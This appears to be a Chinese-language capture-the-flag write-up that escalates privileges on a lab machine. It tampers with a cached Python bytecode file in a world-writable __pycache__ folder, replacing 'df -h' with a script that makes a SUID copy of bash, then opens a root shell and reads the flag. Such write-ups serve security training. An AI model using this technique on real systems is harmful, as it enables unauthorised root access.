1 2 3 4 5 6 miku@fromytoy:~$ sudo -l Matching Defaults entries for miku on fromytoy: env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin User miku may run the following commands on fromytoy: (ALL) NOPASSWD: /usr/bin/python3 /usr/local/lib/python_scripts/cleanup_task.py
进入该目录查看：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 miku@fromytoy:~$ cd /usr/local/lib/python_scripts/ miku@fromytoy:/usr/local/lib/python_scripts$ ls -liah total 20K 303574 drwxr-xr-x 3 root root 4.0K Jan 19 22:50 . 263401 drwxr-xr-x 5 root root 4.0K Jan 19 22:40 .. 303581 -rwxr-xr-x 1 root root 359 Jan 19 22:50 cleanup_task.py 303577 drwxrwxrwx 2 root root 4.0K Feb 1 22:39 __pycache__ 303576 -rw-r--r-- 1 root root 97 Jan 19 22:41 system_utils.py miku@fromytoy:/usr/local/lib/python_scripts$ cat cleanup_task.py import sys import os import system_utils def main(): print ("[*] Starting system cleanup..." ) if os.geteuid() != 0: print ("[-] Error: This script must be run as root." ) sys.exit(1) system_utils.check_disk_space() print ("[+] Cleanup completed successfully." ) if __name__ == "__main__" : main() miku@fromytoy:/usr/local/lib/python_scripts$ cat system_utils.py import os def check_disk_space(): print ("[*] Checking disk usage..." ) os.system("df -h" ) miku@fromytoy:/usr/local/lib/python_scripts$
可以看到有两个 py 文件，我们可以 sudo 执行的文件会引入 system_utils 这个文件，并执行其中的 check_disk_space 这个函数。
同时，我们还发现，存在一个我们可写的 __pycache__ 文件夹。
可以看看这个文件夹里面有什么：
1 2 3 4 5 miku@fromytoy:/usr/local/lib/python_scripts/__pycache__$ ls -liah total 12K 303577 drwxrwxrwx 2 root root 4.0K Feb 6 05:00 . 303574 drwxr-xr-x 3 root root 4.0K Jan 19 22:50 .. 290622 -rw-r--r-- 1 root root 333 Feb 6 05:00 system_utils.cpython-39.pyc
可以看到里面有一个 .pyc 文件，这个文件是 python 程序编译后的字节码文件，下次运行同样的 python 程序时，就会直接使用这个 pyc 文件，而不是再编译一次。
我们对当前目录有写权限，意味着我们可以修改这个 pyc 文件的内容，从而执行我们想要执行的内容。
用 xxd 对该文件进行分析，发现其中有源代码的一些可见字符：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 miku@fromytoy:/usr/local/lib/python_scripts/__pycache__$ xxd system_utils.cpython-39.pyc 00000000: 610d 0d0a 0000 0000 65f9 6e69 6100 0000 a.......e.nia... 00000010: e300 0000 0000 0000 0000 0000 0000 0000 ................ 00000020: 0002 0000 0040 0000 0073 1400 0000 6400 .....@...s....d. 00000030: 6401 6c00 5a00 6402 6403 8400 5a01 6401 d.l.Z.d.d...Z.d. 00000040: 5300 2904 e900 0000 004e 6300 0000 0000 S.)......Nc..... 00000050: 0000 0000 0000 0000 0000 0003 0000 0043 ...............C 00000060: 0000 0073 1600 0000 7400 6401 8301 0100 ...s....t.d..... 00000070: 7401 a002 6402 a101 0100 6400 5300 2903 t...d.....d.S.). 00000080: 4e7a 1a5b 2a5d 2043 6865 636b 696e 6720 Nz.[*] Checking 00000090: 6469 736b 2075 7361 6765 2e2e 2e7a 0564 disk usage...z.d 000000a0: 6620 2d68 2903 da05 7072 696e 74da 026f f -h)...print..o 000000b0: 73da 0673 7973 7465 6da9 0072 0500 0000 s..system..r.... 000000c0: 7205 0000 00fa 2d2f 7573 722f 6c6f 6361 r.....-/usr/loca 000000d0: 6c2f 6c69 622f 7079 7468 6f6e 5f73 6372 l/lib/python_scr 000000e0: 6970 7473 2f73 7973 7465 6d5f 7574 696c ipts/system_util 000000f0: 732e 7079 da10 6368 6563 6b5f 6469 736b s.py..check_disk 00000100: 5f73 7061 6365 0200 0000 7304 0000 0000 _space....s..... 00000110: 0108 0172 0700 0000 2902 7203 0000 0072 ...r....).r....r 00000120: 0700 0000 7205 0000 0072 0500 0000 7205 ....r....r....r. 00000130: 0000 0072 0600 0000 da08 3c6d 6f64 756c ...r......<modul 00000140: 653e 0100 0000 7302 0000 0008 01 e>....s......
如果我们先 cp 一个相同的文件，然后用 vim 修改其中的一些字符，再把原来的文件删掉，替换成我们已经修改后的文件，那我们 sudo 执行刚才的 python 文件之后，我们就可以看到结果也已经被修改：

说明修改这个 pyc 文件，从而控制程序执行是可行的。
经过测试发现，我们需要保证修改的字节数和原来的文件的字节数是相同的，不然就会报错。
也就是说，我们可以把原来的 system 执行的内容 df -h 换成字节数相同的内容，这样我们就可以成功执行任意代码了。
在当前目录下写入提权命令：
1 2 3 4 5 6 7 8 miku@fromytoy:/usr/local/lib/python_scripts/__pycache__$ echo 'cp /bin/bash /tmp/bash;chmod +s /tmp/bash' > dt miku@fromytoy:/usr/local/lib/python_scripts/__pycache__$ chmod +x dt miku@fromytoy:/usr/local/lib/python_scripts/__pycache__$ ls -liah total 16K 303577 drwxrwxrwx 2 root root 4.0K Feb 6 05:11 . 303574 drwxr-xr-x 3 root root 4.0K Jan 19 22:50 .. 290622 -rwxr-xr-x 1 miku miku 42 Feb 6 05:11 dt 290627 -rw-r--r-- 1 miku miku 335 Feb 6 05:06 system_utils.cpython-39.pyc
编辑 system_utils.cpython-39.pyc 的内容，把 df -h 这五个字节改成 ./dt ，同样是五个字节：

接着 sudo 执行：

发现 /tmp 目录下多了一个有 SUID 的 bash ，用 /tmp/bash -p 提权即可：
1 2 3 4 5 6 7 8 9 10 miku@fromytoy:/usr/local/lib/python_scripts/__pycache__$ /tmp/bash -p bash-5.0# whoami root bash-5.0# cat /root/root.txt a6c7cf996c275fa5afe6e47bc6f5c79e Good morning, and in case I don't see you, Good afternoon, Good evening, And good night bash-5.0#
PS python3 -m py_compile system_utils.py 可以创建该 py 文件的 .pyc 文件，存在当前目录里的 __pycache__ 目录下。